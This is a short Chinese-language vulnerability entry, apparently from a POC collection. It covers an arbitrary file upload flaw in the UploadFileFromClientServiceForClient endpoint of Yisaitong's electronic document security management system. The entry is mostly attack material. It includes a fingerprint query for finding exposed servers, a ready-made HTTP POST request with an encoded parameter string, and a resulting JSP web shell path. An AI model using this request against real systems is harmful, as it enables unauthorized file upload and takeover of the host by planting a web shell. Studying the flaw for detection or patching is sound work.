

# 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限。

参考链接：

- https://github.com/di0xide-U/YSTupload/blob/main/exp.md

## 漏洞影响

亿赛通 电子文档安全管理系统

## 网络测绘

```
app="亿赛通-电子文档安全管理系统"
```

## 漏洞复现

登录页面


验证POC

```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```



```
Shell访问地址：https://your-ip/tttT.jsp
```

